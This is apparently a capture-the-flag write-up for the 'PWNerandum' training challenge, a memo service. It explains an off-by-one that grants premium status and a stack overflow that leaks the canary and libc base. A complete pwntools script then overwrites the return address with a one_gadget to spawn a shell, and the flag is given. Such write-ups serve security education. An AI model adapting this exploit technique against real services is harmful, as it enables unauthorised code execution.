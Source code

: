 ```yaml
---
date: '2023-09-26T21:23:00Z'
draft: true
title: 'CCIT Training - PWNerandum'

categories: ["Writeups"]
tags: ["pwn", "stack overflow"]
author: "leo_something"
---
```


## Remote host

```bash
nc pwnerandum.challs.cyberchallenge.it 9246
```

---
## Checksec

![checksec](PWNerandum_checksec.png)

---
## Service  description

`PWNerandum` is a service that allows you to add, list and read `memos`, which are composed by a title and a description.
There is also a 4th option: `become premium user`, to become premium user and unlock more options (`edit memo` and `edit program banner`) you need to guess a 26 byte long password.

![overview](PWNerandum.png)

---

## Solution (off-by-one + stack overflow)

#### Off-by-one

Fortunately there's an `off-by-one` vuln on the password buffer which allows you to override the "is_premium" flag. You just need to fill the password field with 26 random bytes and a 0x1 byte in the 27th position.
Now you are logged in as `premium user` and you should have extra options in the menu.

![premium-overview](PWNerandum_premium.png)

#### Stack overflow

Checking with IDA the other functionalities I found out that `Write down to disk` and `Delete memo` don't work, so I started looking up the other two and found a potential `BOF` on `modify banner`. 
If you try to modify the banner you are prompted to enter a size for the new banner and the banner itself (which must match the given size), the thing is that the buffer containing the banner is fixed at a length of `520 bytes`, so if I try to create a bigger banner I can leak parts of the stack, like the canary and the base address of the `LIBC`.
Now we can override the `return address` with the address of a `one gadget` and on exiting the program will spawn a shell for us.

---

### Final Exploit

`solve.py`
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("pwnerandum_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe 

def conn():
if args.GDB:
	r = gdb.debug([exe.path])
elif args.REMOTE:
	r = remote("pwnerandum.challs.cyberchallenge.it", 9246)
else:
	r = process([exe.path])
return r

def format_leaked_addr(addr):
	formatted_addr = "0x"
	for i in range(len(addr)-1, 0, -1):
		print(addr[i])
	if len(str(addr[i])) == 1:
		formatted_addr += "0" + str(hex(addr[i])[2:])
	else:
		formatted_addr += str(hex(addr[i])[2:])
	return formatted_addr

def main():
	r = conn()
	  
	# off-by-one
	r.sendlineafter(b">>", b"4")
	payload = b"\x01"*27
	r.sendlineafter(b"premium", payload)
	
	# stack smashing at 520+ bytes
	# leak canary
	r.sendlineafter(b">>", b"5")
	r.sendlineafter(b"Size of the new banner:", b"521")
	r.sendlineafter(b"New banner:", b"a"*517)
	r.sendline(b"--")
	leaked_canary = r.recvuntil(":").split(b"Premium")[0].split(b"--")[1][:8]
	print(leaked_canary)
	canary = format_leaked_addr(leaked_canary)
	canary += "00"
	print(canary)
	canary = int(canary, 16)
	
	# BOF for PIE leak
	r.sendlineafter(b">>", b"5")
	r.sendlineafter(b"Size of the new banner:", b"536")
	payload = b"a"*520 + b"a"*8 + b"a"*5 + b"--"
	r.sendlineafter(b"New banner:", payload)
	leaked_libc_addr = r.recvuntil(":").split(b"Premium")[0].split(b"--")[1][:7]
	libc_addr = format_leaked_addr(leaked_libc_addr)
	libc_addr = int(libc_addr, 16)
	print(hex(libc_addr))
	# (__libc_start_main + 0xe7) offset found with some attempts (read below)
	pie_addr = libc_addr - (libc.sym["__libc_start_main"] + 0xe7)
	print(hex(pie_addr))
	
	# onegadget
	ONE_GADGET = 0x4f2c5
	payload = b"a"*520 + p64(canary) + b"a"*8 + p64(pie_addr + ONE_GADGET)
	r.sendlineafter(b">>", b"5")
	r.sendlineafter(b"Size of the new banner:", b"545")
	r.sendlineafter(b"New banner:", payload)
	
	# exit program to trigger /bin/sh
	r.sendlineafter(b">>", b"9")
	
	r.interactive()

if __name__ == "__main__":
	main()
```
#### P.S:
I had issues in making the program work locally with the right version of `libcrypto`, so I was unsuccessful in debugging it and had to do some attempts to find the right offset of `LIBC`.

---

## Flag
```
ccit{0n3_byt3_t0_rul3_th3m_4ll}
```